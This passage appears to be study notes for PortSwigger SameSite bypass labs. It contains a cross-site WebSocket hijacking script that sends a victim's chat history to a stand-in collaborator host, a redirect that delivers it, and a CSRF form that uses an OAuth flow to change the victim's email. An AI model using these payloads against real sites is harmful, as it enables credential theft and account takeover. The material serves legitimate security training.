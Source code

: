 
```
<script>
    var ws = new WebSocket('wss://TARGE.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```  

>Host the following on exploit server and deliver to victim, once the collaborator receive the victim chat history with their password, result in account takeover.  

```
<script>
    document.location = "https://cms-TARGET.net/login?username=ENCODED-POC-CSWSH-SCRIPT&password=Peanut2019";
</script>
```  

>The chat history contain password for the victim.

![chat-history.png](images/chat-history.png)  

[PortSwigger Lab: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)  

### SameSite Lax bypass  

>Observe if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction., and in proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.  

>Bypass the popup blocker, to induce the victim to click on the page and only opens the popup once the victim has clicked, with the following JavaScript. The exploit JavaScript code first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. Deliver the exploit to the victim.  

```
<form method="POST" action="https://TARGET.net/my-account/change-email">
    <input type="hidden" name="email" value="administrator@exploit-server.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://TARGET.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```  
